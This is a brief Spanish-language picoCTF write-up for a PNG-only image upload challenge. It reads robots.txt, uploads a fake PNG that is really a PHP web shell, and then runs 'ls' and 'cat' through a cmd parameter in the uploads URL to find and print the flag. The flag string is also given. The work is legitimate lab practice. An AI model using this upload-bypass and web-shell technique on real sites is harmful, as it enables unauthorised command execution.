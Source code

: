 ## Objetivo 
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
## Solución  
al ingresar al archivo robots.txt obtenemos: 
```bash
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

```
PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03} */
```
## Notas Adicionales 
al obtener informacion de robots.txt subimos la imagen png que realmente no es un png
y posteriormente lo abrimos en la carpeta uploads, seguido de un comando por que esto ahora es un shell de comandos: 
`http://atlas.picoctf.net:50547/uploads/shell.png.php?cmd=ls`
hacemos un ls ..
vemos que en la carpeta superior hay un .txt llamado `MFRDAZLDMUYDG.txt`
y por ultimo le hacemos un cat para ver su contenido
`http://atlas.picoctf.net:50547/uploads/shell.png.php?cmd=cat%20../MFRDAZLDMUYDG.txt`
y obtenemos la flag:
`PNG /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03} */`
### Referencias


